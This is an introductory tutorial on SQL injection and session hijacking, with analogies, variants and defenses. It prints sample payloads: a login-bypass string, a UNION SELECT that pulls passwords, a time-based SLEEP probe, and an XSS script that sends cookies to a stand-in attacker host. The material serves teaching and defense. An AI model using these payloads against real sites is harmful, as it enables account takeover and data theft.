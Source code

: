 # SQL Injection 

**Plain:** attacker puts special text into a web input so the app sends a different SQL command to the database.

**Analogy:** the database is a librarian who does exactly what you say. If you whisper “find book by Alice” it’s fine — but if someone shouts “find book by Alice **or give me everything**” the librarian follows that, too.

---

## Vulnerable example (bad, do **not** use in production)

Imagine the server builds SQL by joining strings:

```sql
query = "SELECT * FROM users WHERE username = '" + user + "' AND password = '" + pass + "';"
```

If `user = admin` and `pass = anything' OR '1'='1`, the query becomes:

```sql
SELECT * FROM users WHERE username = 'admin' AND password = 'anything' OR '1'='1';
```

`'1'='1'` is always true → attacker logs in.

---

## Variants (short & concrete)

### 1. In-Band SQLi (attacker sees results directly)

* **Error-based**: craft input that causes DB error; error message leaks table/column names.
  *Example idea:* input that causes a type error so DB returns schema info (only if app shows errors).
* **Union-based**: use `UNION SELECT` to append attacker data to normal query results.
  *Example sketch:* if site shows search results, attacker uses `UNION SELECT username,password FROM users` to make the page show those rows.

### 2. Blind SQLi (no direct output; attacker asks yes/no)

* **Boolean (content-based):** put a condition that is true or false and observe page differences.
  *Example:* test `id=1 AND 1=1` (page normal) vs `id=1 AND 1=2` (page different) → you learn bits of data step-by-step.
* **Time-based:** make the DB sleep only when a condition is true and measure response time.
  *Example:* `id=1 AND IF(SUBSTRING(password,1,1)='a', SLEEP(5), 0)` — if response delays ~5s, first char = 'a'.

### 3. (Optional) Out-of-Band (OOB)

* DB causes a DNS/HTTP request to an attacker-controlled server to exfiltrate data. Works when direct output blocked.

---

## Quick defenses (simple)

1. **Parameterized queries / prepared statements** — *always* use them.
   Python example (safe):

   ```python
   cursor.execute("SELECT * FROM users WHERE username=%s AND password=%s", (user, password))
   ```
2. **Input validation**: if a field must be numeric, reject non-numbers.
3. **Least privilege DB user**: web app DB user should only read/write required tables (not `DROP`, not admin).
4. **Hide DB errors**: show generic error messages to users.
5. **Use ORM or stored procedures** where appropriate.
6. **WAF and monitoring** as defense-in-depth.

---

# Session Hijacking — simple + examples

**Plain:** attacker steals or reuses someone’s session token (cookie) and becomes that user.

**Analogy:** session ID = wristband at an event. If someone steals your wristband, they enter pretending to be you.

---

## Where session IDs live

* Usually in a **cookie** (or URL in very bad designs). Example cookie header:

```
Set-Cookie: session=abcd1234; HttpOnly; Secure; SameSite=Lax
```

---

## Common ways sessions are hijacked (with tiny examples)

* **XSS steals cookie:** malicious script reads `document.cookie` and sends it to attacker.
  *Example of what an attacker’s injected script might do (educational only):*
  `<script>fetch('https://attacker.example/steal?c='+encodeURIComponent(document.cookie))</script>`
* **Network eavesdropping (HTTP):** cookies sent over plain HTTP can be sniffed (use HTTPS!).
* **Session fixation:** attacker sets a session ID for the victim (e.g., via link), victim logs in with that ID, attacker reuses it.
* **Physical/shared machines / saved sessions:** someone uses a browser left logged in.

---

